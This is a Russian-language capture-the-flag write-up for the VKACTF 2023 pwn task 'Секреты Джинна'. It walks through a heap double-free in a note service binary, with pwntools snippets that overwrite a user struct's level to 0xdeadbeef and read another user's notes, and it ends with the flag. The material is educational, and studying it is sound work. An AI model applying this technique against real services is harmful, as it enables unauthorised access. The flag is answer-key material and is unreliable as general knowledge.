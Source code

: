 # Секреты Джинна

|   Cобытие   | Название | Категория | Сложность |
| :---------: | :------: | :-------: | :-------: |
| VKACTF 2023 |  Секреты Джинна  |  Pwn  |  Средняя  |

## Описание

>Автор: old3gg
>
>"Никогда раньше не пробовали обмануть самого Джинна? Ходят слухи, что это невозмоно, но если знаешь пару трюков - он сам тебе всё раскажет"

# Решение
1. Дан бинарынй файл ,который представляет собой сервис заметок , где можно регистрироваться, авторизироваться, постить заметку и удалять её в аккаунте и т.д.

2. Сразу обращаем внимание на то, что регистрация и авторизация требует от пользователя логин, почту и пароль

3. У каждого аккаунта есть уровень , по дефолту у зарегистрированного пользователя - 1 ур.

4. Посмотрев всех пользователй , находим Джинна с уровнем аккаунта 11337, скорее всего у него и лежит нужная нам заметка, 

струкура пользователя 

![sctruct](struct.png)

5. Также замечаем , что пользователь с уровнем 0xdeadbeef получчает доступ к просмотру заметок всех пользователей

6. всё что нам остаётся, это перетереть уровень нашего аккаунта, с помощью уязвимости doublefree 

7. Для этого нам нужно зарегистрироваться создать 9 заметок размером с нашу структуру (структуру пользователя), т.е. чтобы 9 раз выделился чанк размером в 104

```python
def add_note(size):
    io.recvuntil(b"your choice? ")
    io.sendline(b"2")
    io.recvuntil(b"Your new note: ")
    io.sendline(cyclic(size))
```
затем освобождаем 7, удаляем аккаунт (8 чанк) , заметку (9 чанк) , ещё раз аккаунт(8 чанк)
```python
    io.recvuntil(b"your choice? ")
    io.sendline(b"6") # delete accaunt
    io.recvuntil(b"your choice? ")
    io.sendline(b"3") 
    io.recvuntil(b"delete: ")
    io.sendline(b"2") # delete note
    io.recvuntil(b"your choice? ")
    io.sendline(b"6") # delete accaunt again)
```

аллоцируем 7 ненужныных чанков, после чего снова регистрируемся, логинимся , создаём заметку и заметку со структурой пользователя,в которой перетираем 3 char массива по 32 , и выставляем нашу уровень, на нужный нам 

```python
    register(b"zxc", b"zxc@zxc", passwd=b"zxc")
    login(b"zxc", b"zxc", mail=b"zxc@zxc")

    add_note(104)
    io.recvuntil(b"your choice? ")
    io.sendline(b"2")
    io.recvuntil(b"Your new note: ")
    io.sendline(cyclic(96) + b"\xef\xbe\xad\xde\x99\x99\x99\x99")
```

[Скрипт](../exploit/exploit.py) для решения задания.

```
vka{e4sy_ch4ng3_57ruc7_w17h_d0ubl3_fr33}
```